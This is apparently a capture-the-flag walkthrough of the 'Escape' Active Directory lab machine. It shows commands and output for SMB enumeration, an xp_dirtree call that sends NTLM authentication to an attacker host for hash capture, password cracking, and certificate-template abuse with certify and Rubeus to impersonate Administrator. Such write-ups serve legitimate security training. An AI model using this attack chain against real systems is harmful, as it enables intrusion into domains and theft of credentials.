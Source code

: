 # Escape

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 -Pn 10.129.242.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-04 06:51 EST
Nmap scan report for 10.129.242.117
Host is up (0.0078s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49689/tcp open  unknown
49690/tcp open  unknown
49710/tcp open  unknown
49714/tcp open  unknown
```

Looks like an AD machine to me. Interestingly, they made port 1433 public facing.&#x20;

### SMB Enum

We can find one share available through `smbmap`:

```
$ smbmap -u 'guest' -p '' -H 10.129.242.117
[+] IP: 10.129.242.117:445      Name: 10.129.242.117                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Public                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share
```

Before checking this share out, we can enumerate the possible usernames and groups using `enum4linux` with the same credentials. We find the the domain name is called `sequel`.

```
S-1-5-21-4078382237-1492182817-2568127209-500 sequel\Administrator (Local User)              
S-1-5-21-4078382237-1492182817-2568127209-501 sequel\Guest (Local User)
S-1-5-21-4078382237-1492182817-2568127209-502 sequel\krbtgt (Local User)
S-1-5-21-4078382237-1492182817-2568127209-512 sequel\Domain Admins (Domain Group)
...
```

Checking the share out, we can find that there's one file here:

```
$ smbclient //10.129.242.117/Public -U 'guest'
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Nov 19 06:51:25 2022
  ..                                  D        0  Sat Nov 19 06:51:25 2022
  SQL Server Procedures.pdf           A    49551  Fri Nov 18 08:39:43 2022
```

We can download this file and view it.&#x20;

### SQL Server Procedures

This is the file contents:

<figure><img src="../../../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure>

The next page contains a guest login for the SQL server. We also find a user called `brandon.brown`, who is likely some kind of database administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (5) (3).png" alt=""><figcaption></figcaption></figure>

We can use `mssqlclient.py` to connect and interact with this database:

```
$ impacket-mssqlclient WORKGROUP/PublicUser:GuestUserCantWrite1@10.129.242.117
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLMOCK): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLMOCK): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL>
```

I was able to confirm that `xp_dirtree` is working on this SQL database, thus allowing us to capture hashes either via `smbserver.py` or `responder`.

Just run this within the database:

```
EXEC xp_dirtree '\\10.10.14.7\share'
```

Afterwards, we would capture an NTLM hash.

<figure><img src="../../../.gitbook/assets/image (8) (1) (9).png" alt=""><figcaption></figcaption></figure>

We can try to crack this hash via whatever method available to find this password:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REGGIE1234ronnie (sql_svc)
```

With these credentials, I was able to login via `evil-winrm`.

<figure><img src="../../../.gitbook/assets/image (24) (6).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SQL Logs

This user did not have the flag or any other local privileges. However, since we are an SQL user, we can perhaps read some sensitive SQL files.

Within the `C:\SQLServer\Logs` file, we can find an ERRORLOG file:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (5).png" alt=""><figcaption></figcaption></figure>

Within that file, we can find some credentials:

```
2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
```

With these credentials, we can login as `ryan.cooper`.

<figure><img src="../../../.gitbook/assets/image (4) (9).png" alt=""><figcaption></figcaption></figure>

We can grab the user flag now.

### Certify.exe --> Admin NTLM

I ran a winPEAS scan to enumerate for me. This scan found some certificates on the machine that could potentially be the PE vector.

<figure><img src="../../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use `certify.exe` to find out if this is vulnerable. Using `certify.exe find /vulnerable`, we can find one certificate:

<figure><img src="../../../.gitbook/assets/image (3) (2) (2).png" alt=""><figcaption></figcaption></figure>

We can then request for this certificate using this command:

```
.\certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```

This would output an RSA key and a certificate:

<figure><img src="../../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can simply use `openssl` to convert this output into a .pfx file:

```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Then, transfer the pfx file and `rubeus.exe` to the machine. We can use `asktgt` with the certificate.

<figure><img src="../../../.gitbook/assets/image (42) (4).png" alt=""><figcaption></figcaption></figure>

Now that we have confirmed this works, we can append `/getcredentials` to the end of the Rubeus command.

<figure><img src="../../../.gitbook/assets/image (21) (5).png" alt=""><figcaption></figcaption></figure>

Then, just pass the hash!

<figure><img src="../../../.gitbook/assets/image (1) (1) (2).png" alt=""><figcaption></figcaption></figure>
